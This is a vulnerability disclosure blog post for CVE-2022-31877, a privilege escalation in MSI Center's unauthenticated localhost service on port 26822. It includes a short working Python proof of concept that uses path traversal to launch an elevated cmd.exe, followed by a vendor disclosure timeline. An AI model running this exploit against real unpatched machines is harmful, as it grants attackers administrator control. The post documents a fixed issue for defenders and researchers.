 ```yaml
---
layout: post
title:  "CVE-2022-31877: Privilege Escalation in MSI Center's MSI.TerminalServer.exe"
date:   2022-07-08 21:00:00 +0200
categories: security
---
```


# General
- Affected product: MSI Center by [Micro-Star Int'l Co., Ltd.](https://msi.com)
- Affected version: < 1.0.45.0, e.g. 1.0.41.0
- [CVE-2022-31877](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-31877)
- Summary: Missing input validation and missing authentication allow attackers with the ability to connect to TCP/IP ports on `localhost:26822` (e.g. any user space process) to download and/or launch arbitraty executables with elevated privileges.

# Description
MSI Center, a tool suite provided by MSI to configure and manage MSI mainboards, includes an executable `MSI.TerminalServer.exe` which is installed as a privileged service by default and allows incoming TCP/IP connections on `localhost:26822`. Via the TCP/IP channel, in version 1.0.41.0, it accepts several JSON-formatted command packets without any authentication, including commands which download files from the web and launch executables with elevated privileges.

While these commands are meant to download and install updates of MSI Center, missing authentication allows attackers to trigger a download of arbitrary files form the web to the local file system. Missing input validation enables attackers to launch arbitrary executables, including the downloaded ones, with elevated permissions by employing path traversal techniques.

Combined, these vulnerabilities could, for example, serve as an entry point for user-space applications (like email attachments) to fully compromise a system, including installation of malware or ransomware.

# Proof of Concept
The following simple Python example will start an elevated Administrator command prompt when executed on a machine running MSI Center.
{% highlight python %}
import socket
import json

packet = {
    "Type": "RunSetupModule",
    "Content": json.dumps({
        "Dependent": [{
            "File": "..\\..\\..\\Windows\\system32\\cmd.exe"
        }],
        "DependentIndex": 0,
        "ProgressStatus": 21
    })
}

with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
    s.connect(('localhost', 26822))
    s.sendall(json.dumps(packet).encode('utf8'))
{% endhighlight %}

# Timeline
- *May 19, 2022:* Contacted vendor with a detailed report and PoC
- *May 25, 2022:* Issue partially confirmed by vendor
- *May 25, 2022:* Supplied more details including screencast of PoC
- *May 27, 2022:* Vendor confirms they are working on a fix
- *June 3, 2022:* CVE number assigned
- *June 3, 2022:* Vendor reports the issue is fixed in MSI.TerminalServer.exe 3.2022.0527.01 by introducing CA signature validation before launching executables
- *June 5, 2022:* I was able to update to a recent MSI Center version and confirm the issue has been fixed (i.e. the PoC is no longer working)

# Thank you and side note
I would like to thank MSI for quickly fixing this issue. However, it was difficult to find a contact in MSI to report this issue. I would like to encourage MSI to establish and publish a process to report security vulnerabilities in their products and add an easier way to contact security, without going through various tiers of technical support first. A first step could be to set up a dedicated email address and a `/.well-known/security.txt` file for easily finding contact information.
